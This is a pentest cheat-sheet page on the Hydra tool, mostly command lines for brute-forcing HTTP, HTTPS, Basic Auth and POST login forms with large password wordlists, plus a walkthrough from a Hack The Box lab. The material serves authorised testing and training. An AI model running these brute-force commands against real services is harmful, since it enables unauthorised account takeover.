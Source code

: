 # Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
For HTML form-based authentication:

{% code overflow="wrap" %}
```bash
hydra example.com -s 8000 -l admin -P rockyou.txt http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}

{% tab title="Basic Auth" %}
For standard HTTP Basic Auth (`401` response plus `WWW-Authenticate: Basic` header):

{% code overflow="wrap" %}
```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt <ip-address> http-get /admin
```
{% endcode %}
{% endtab %}

{% tab title="HTTP-POST" %}
{% code overflow="wrap" %}
```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://billyboss:8081/service/rapture/session:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1), attempt a failed login, and select something unique from the source code of the HTTP response (Figure 2).

<figure><img src="../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
